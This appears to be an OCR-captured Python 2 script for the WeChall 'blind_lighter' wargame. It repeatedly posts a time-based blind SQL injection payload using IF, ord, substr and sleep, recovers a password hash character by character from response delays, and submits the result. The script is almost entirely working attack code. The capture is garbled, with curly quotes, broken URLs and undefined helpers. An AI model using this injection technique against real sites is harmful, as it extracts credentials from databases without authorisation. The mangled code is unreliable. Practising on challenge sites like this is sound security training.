 ```py
setup = requests.get ('http://www.wechall.net/challenge/blind_lighter/index .php?mo=WeChall&me=Sidebar2&rightpanel=0', cookies=cookies)
y=0
accum=0

while 1:
  reset = requests.get('http://www.wechall.net/challenge/blind_lighter/ index.php?reset=me', cookies=cookies)
  for line in reset.text.splitlines():
    if “last hash” in line:
      print “the old hash was:”+line.split(“ “)[20].strip(“.</li>”)
      print “the guessed hash:”+answer
      print “Attempts reset \n \n”
    for x in range(1, 33):
      payload = {'injection': '\'or IF (ord(substr(password, '+str(x)+', 1)) BETWEEN 48 AND 57,sleep((ord(substr(password, '+str(x)+', 1))- 48)/4),sleep((ord(substr(password, '+str(x)+', 1))- 55)/4));#', 'inject': 'Inject'}
      req = requests.post ('http://www.wechall.net/challenge/blind_lighter/ index.php?ajax=1', data=payload, cookies=cookies)
      responsetime = str(req.elapsed)[5]+str(req.elapsed)[6]+str(req.elapsed)[8]+ str(req.elapsed)[9]
      accum = accum + int(responsetime)
      benchmark = int(15)
      benchmarked = int(responsetime) - benchmark
      rounded = str(round_down(benchmarked, 25))
      if rounded in values:
        a = str(values[rounded])
        times.append(a)
        answer = ''.join(times)
      else:
        print rounded
        rounded = str(“375”)
        a = str(values[rounded])
        times.append(a)
        answer = ''.join(times)
  submission = {'thehash': str(answer), 'mybutton': 'Enter'}
  submit = requests.post('http://www.wechall.net/challenge/blind_lighter/ index.php', data=submission, cookies=cookies)
  print “Attempt: “+str(y)
  print “Time taken: “+str(accum)
  y += 1
  for line in submit.text.splitlines():
    if “slow” in line:
      print line.strip(“<li>”)
    elif “wrong” in line:
      print line.strip(“<li>”)
  if “wrong” not in submit.text:
    print “possible success!”
    #subprocess.Popen([“beep”], shell=True)
```
